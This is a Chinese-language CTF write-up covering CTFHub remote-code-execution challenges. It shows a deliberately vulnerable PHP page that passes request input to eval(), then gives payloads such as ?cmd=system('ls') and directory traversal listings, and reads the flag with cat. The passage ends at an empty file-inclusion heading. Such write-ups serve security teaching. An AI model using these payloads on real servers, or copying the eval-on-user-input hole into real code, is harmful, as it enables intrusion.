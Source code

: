 #  CTFHub-RCE题目wp   
原创 track  泷羽Sec-track   2025-02-09 17:47  
  
## 引言  
  
题目共有如下类型  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYwcuYwuH9akLdQs6aF9SaMx5ZqCibjjiaFj9eevL1mTn80uDUhb4yfYaw/640?wx_fmt=png&from=appmsg "")  
### 什么是RCE漏洞  
  
RCE漏洞，全称是**Remote Code Execution**  
漏洞，翻译成中文就是**远程代码执行**  
漏洞。顾名思义，这是一种安全漏洞，允许攻击者在受害者的系统上远程执行任意代码  
## eval执行  
  
分析源码：  
```
 <?php
if (isset($_REQUEST['cmd'])) {         //检查是否有cmd参数且不为空
    eval($_REQUEST["cmd"]);            //执行cmd传入的php代码
} else {
    highlight_file(__FILE__);
}
?> 

```  
  
执行命令查看当前目录  
```
?cmd=system("ls");

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYe4OlT3gYbkSwIKtrLcnJb5QiceBa6csRPDcRb4MwfqEsO78cGvlnJ9w/640?wx_fmt=png&from=appmsg "")  
  
查看根目录或者上级目录一个一个查找  
```
?cmd=system("ls /");
?cmd=system("ls ../../../");

```  
  
发现flag文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkY2WUEta1cA7n0MRyNDHB0YuBibqicOssv3wYYgz3Oxh6bibuM8IHpZf7Kw/640?wx_fmt=png&from=appmsg "")  
  
**cat /flag_8751**  
即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYibQO36wySmJdDazyUSBSbiaibMib0VjialibD7hic0ztIibzJhRSCKW3BA8Xzw/640?wx_fmt=png&from=appmsg "")  
## 文件包含  
### 文件包含  
  